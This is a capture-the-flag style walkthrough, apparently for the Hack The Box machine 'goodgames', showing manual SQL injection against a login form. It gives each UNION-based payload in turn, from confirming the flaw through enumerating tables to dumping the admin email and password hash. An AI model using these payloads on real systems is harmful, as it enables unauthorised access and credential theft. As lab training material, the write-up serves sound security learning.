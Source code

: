 **A tutorial for manually exploiting sqli in the sign in page without sqlmap but with burpsuite**

![image](https://user-images.githubusercontent.com/87831546/142857492-a15dd841-8ef9-47b4-b074-ff0827e1c11d.png)

1) Confirm sql injection ('# comments out any query after it, or you can use -- -):
```
email=a@a.com'#&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142857635-483e64f9-b383-48e3-a81a-ae49017f7460.png)

2) Find number of columns with ORDER BY, increasing the order of numbers until we get an error
```
email=a@a.com' order by 4-- -&password=esdfs
```
order by 4 works, but order by 5 gives us an error telling us that there are 4 columns
![image](https://user-images.githubusercontent.com/87831546/142857961-b7333efa-0fae-47b9-b8fe-cbe2a87aa4d5.png)
![image](https://user-images.githubusercontent.com/87831546/142858071-7ec1ede4-8bae-4831-aef8-bada640b2bd2.png)

3) Find columns with useful data type to see if we can see the outcome of queries. We find that only the last column displays output to use
```
email=a@.com' UNION SELECT NULL,NULL,NULL,'test'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858377-8c3d41cc-6858-42b1-8b05-706eb6dfa9e5.png)

4) Find database names - gives us an interesting table name called 'user'
```
email=a@a.com' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables -- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858532-ceff2ce1-5b8b-47dc-97e4-5eba5ef5e9a5.png)

5) Find columns for the user data (id, email, password, name)
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_name='user'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142858926-da72f95e-3649-49e9-8ad8-c8b304877291.png)


6) Find that an admin user exists
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,name FROM user-- -&password=esdfs
```
(returns two users, admin and a. a is a user i registered on the site)
![image](https://user-images.githubusercontent.com/87831546/142859633-5bfb8a1e-ed6c-44b0-9ca3-90b23986dad3.png)

7) Dump the email and password from the admin user
```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,email FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859858-88a6fcae-13dc-4b35-bf97-134547a10047.png)

```
email=a%40a.com' UNION SELECT NULL,NULL,NULL,password FROM user WHERE name='admin'-- -&password=esdfs
```
![image](https://user-images.githubusercontent.com/87831546/142859540-67379753-b541-47ce-a866-2e2b1f81f0ce.png)

And we get the same data that sqlmap gave us!
```
+------+---------------------+--------+----------------------------------+
| id   | email               | name   | password                         |
+------+---------------------+--------+----------------------------------+
| 1    | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
+------+---------------------+--------+----------------------------------+
```

One thing to note is that all results precede with an 'a' as this is the name of the user account i created, and we log in as with every sqli
